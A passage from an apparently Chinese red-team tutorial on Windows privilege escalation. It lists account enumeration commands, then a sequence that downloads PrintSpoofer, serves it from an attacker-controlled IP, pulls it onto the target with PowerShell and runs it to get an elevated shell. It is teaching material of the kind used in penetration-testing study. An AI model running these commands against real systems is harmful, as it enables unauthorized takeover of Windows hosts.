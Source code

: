 等执行时间过后，查看

```armasm
net user
net localgroup administrators
```

### 16.3.2 使用漏洞

查看权限

```armasm
whoami /priv
```

有SeImpersonatePrivilege可以用PrintSpoofer或者土豆系列

```armasm
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
python3 -m http.server 80

powershell
iwr -uri http://192.168.119.2/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
.\PrintSpoofer64.exe -i -c powershell.exe
whoami
```

更多更新资料（微信公众号：TopRedTeam）

![](./qrcode.jpg)
